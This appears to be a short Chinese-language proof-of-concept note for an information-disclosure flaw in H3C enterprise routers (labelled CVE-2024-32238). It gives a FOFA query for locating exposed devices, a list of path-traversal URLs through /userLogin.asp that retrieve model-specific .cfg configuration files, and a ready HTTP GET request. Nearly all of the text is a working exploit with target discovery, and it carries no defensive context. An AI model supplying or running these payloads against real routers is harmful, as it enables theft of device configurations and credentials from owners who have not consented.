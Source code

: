 ## H3C路由器userLogin.asp信息泄漏漏洞(CVE-2024-32238)



## fofa

```
app="H3C-Ent-Router"
```
![image](https://github.com/user-attachments/assets/19e69234-a83f-4bfd-8af0-fa7e75069c65)



## poc

```
/userLogin.asp/../actionpolicy_status/../ER8300G2.cfg
/userLogin.asp/../actionpolicy_status/../M60.cfg
/userLogin.asp/../actionpolicy_status/../GR8300.cfg
/userLogin.asp/../actionpolicy_status/../GR5200.cfg
/userLogin.asp/../actionpolicy_status/../GR3200.cfg
/userLogin.asp/../actionpolicy_status/../GR2200.cfg
/userLogin.asp/../actionpolicy_status/../ER8300G2-X.cfg
/userLogin.asp/../actionpolicy_status/../ER8300G2.cfg
/userLogin.asp/../actionpolicy_status/../ER6300G2.cfg
/userLogin.asp/../actionpolicy_status/../ER5200G2.cfg
/userLogin.asp/../actionpolicy_status/../ER5200.cfg
/userLogin.asp/../actionpolicy_status/../ER5100.cfg
/userLogin.asp/../actionpolicy_status/../ER3260G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3260.cfg
/userLogin.asp/../actionpolicy_status/../ER3200G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3200.cfg
/userLogin.asp/../actionpolicy_status/../ER3108GW.cfg
/userLogin.asp/../actionpolicy_status/../ER3108G.cfg
/userLogin.asp/../actionpolicy_status/../ER3100G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3100.cfg
/userLogin.asp/../actionpolicy_status/../ER2200G2.cfg
```

```
GET /userLogin.asp/../actionpolicy_status/../ER8300G2.cfg HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Host:
```

![image-20240524233044125](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405242330199.png)

![image-20240524233826952](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405242338044.png)
